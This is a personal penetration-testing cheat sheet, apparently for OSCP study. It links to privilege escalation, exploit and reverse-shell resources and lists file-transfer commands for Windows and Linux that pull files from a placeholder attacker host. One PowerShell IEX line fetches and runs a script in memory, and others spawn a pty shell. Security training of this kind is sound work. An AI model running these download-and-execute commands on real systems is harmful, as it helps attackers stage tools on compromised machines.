 # My notes

###### My cheat sheet notes.

## Python pip

1. Python2 -m pip YOUR_COMMAND

2. Python3 -m pip YOUR_COMMAND

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/shells/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my `Privesc_scripts` repository. 

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

[My Privesc Scripts](https://github.com/CalegariMindSec/Privesc_scripts) 

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)


### Windows PrivEsc CheatSheet

[OSCP_Vini2.ctb (sejalivre.org)](https://sejalivre.org/OSCP/index.html#)

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

### Linux PrivEsc Cheatsheet

[Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

### OSCP Guide

[GitHub - rkhal101/Hack-the-Box-OSCP-Preparation: Hack-the-Box-OSCP-Preparation](https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')"
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://IP:PORT/'FILE)
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Shell Spawning

[Spawning a TTY Shell (netsec.ws)](https://netsec.ws/?p=337)

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell 
[Reverse Shell Generator](https://www.revshells.com/) 
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

